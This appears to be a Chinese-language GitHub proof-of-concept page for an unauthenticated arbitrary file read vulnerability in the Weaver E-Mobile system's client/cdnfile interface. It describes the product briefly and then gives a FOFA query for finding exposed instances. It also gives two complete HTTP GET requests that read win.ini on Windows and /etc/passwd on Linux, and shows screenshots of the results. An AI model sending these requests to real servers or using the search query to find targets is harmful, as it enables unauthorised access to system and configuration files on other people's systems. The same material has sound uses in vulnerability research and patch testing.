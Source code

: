 # 泛微E-Mobile系统接口cdnfile存在任意文件读取漏洞
泛微e-mobile遵循以客户为中心，以企业中的事务为导向的出发点，帮助企业构建以员工为核心的移动统一办公平台。e-mobile可满足企业日常管理中的绝大部分管理需求， 诸如市场销售、项目、采购、研发、客服、财务、人事、行政等；同时e-mobile可帮助企业实现面向不同用户量身定制的移动办公入口，包括企业员工、供应商、代理商、 合作伙伴、投资费以及终端客户等整个供应链条上的关系主体，满足为企业全方位的移动办公需求。泛微e-mobile client/cdnfile 接口存在任意文件读取漏洞，未经身份验证攻击者可通过该漏洞读取系统重要文件（如数据库配置文件、系统配置文件）、数据库配置文件等等，导致网站处于极度不安全状态。
## fofa

`app="泛微-EMobile"`
***
### windows下执行
```javascript
GET /client/cdnfile/1C/Windows/win.ini HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```
![image](https://github.com/user-attachments/assets/dfc8f838-09ff-4fd5-9bfb-a96058e4cac3)

### linux下执行
```javascript
GET /client/cdnfile/C/etc/passwd HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
```
![image](https://github.com/user-attachments/assets/2f7e6688-aa3d-4ed5-81c8-4da7e2865fe2)
